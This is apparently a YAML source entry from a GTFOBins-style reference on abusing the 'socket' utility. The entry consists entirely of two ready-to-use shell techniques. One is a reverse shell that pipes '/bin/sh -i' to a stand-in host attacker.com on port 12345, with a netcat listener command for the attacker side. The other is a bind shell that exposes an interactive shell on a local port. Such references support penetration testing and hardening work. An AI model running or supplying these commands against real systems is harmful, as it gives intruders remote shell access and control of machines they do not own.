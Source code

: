 ```yaml
---
functions:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socket -qvp '/bin/sh -i' $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socket -svp '/bin/sh -i' $LPORT
---
```

